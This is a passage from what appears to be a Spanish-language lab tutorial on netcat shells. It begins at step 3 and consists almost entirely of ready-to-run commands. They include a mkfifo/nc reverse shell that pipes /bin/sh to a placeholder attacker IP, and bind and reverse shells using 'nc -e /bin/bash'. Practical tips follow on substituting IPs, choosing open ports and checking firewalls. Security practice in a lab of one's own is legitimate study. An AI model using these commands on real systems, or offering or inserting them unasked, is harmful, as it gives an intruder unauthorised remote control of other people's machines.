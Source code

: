 3. **Reverse shell con netcat en Linux (conexión desde la víctima al atacante):**

En la máquina atacante (local), escucha:

```bash
nc -lvnp 5555
```

En la máquina víctima (Ubuntu):

```bash
mkfifo /tmp/f; nc <IP_ATACANTE> 5555 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Explicación: la víctima se conecta hacia el atacante en el puerto 5555 y envía la shell.

---

4. **Prueba básica de bind shell con `nc -e` (si netcat soporta `-e`):**

En víctima:

```bash
nc -lvnp 4444 -e /bin/bash
```

En atacante:

```bash
nc <IP_VICTIMA> 4444
```

---

5. **Prueba básica de reverse shell con `nc -e` (si netcat soporta `-e`):**

En atacante (escucha):

```bash
nc -lvnp 5555
```

En víctima:

```bash
nc <IP_ATACANTE> 5555 -e /bin/bash
```

---

6. **Validación**

* Cambiar `<IP_VICTIMA>` por la IP real del Ubuntu.
* Cambiar `<IP_ATACANTE>` por la IP desde donde escuchas (tu Kali o máquina local).
* Usar puertos sin bloqueo (ejemplo 4444, 5555).
* Verificar que no haya firewall que bloquee puertos.

---

7. **Sugerencia de uso en práctica**

* Abre dos terminales en tu máquina atacante.
* En una terminal, inicia listener para reverse shell.
* En la otra, conéctate SSH a víctima y ejecuta el comando reverse shell.
* Repite con bind shell.

---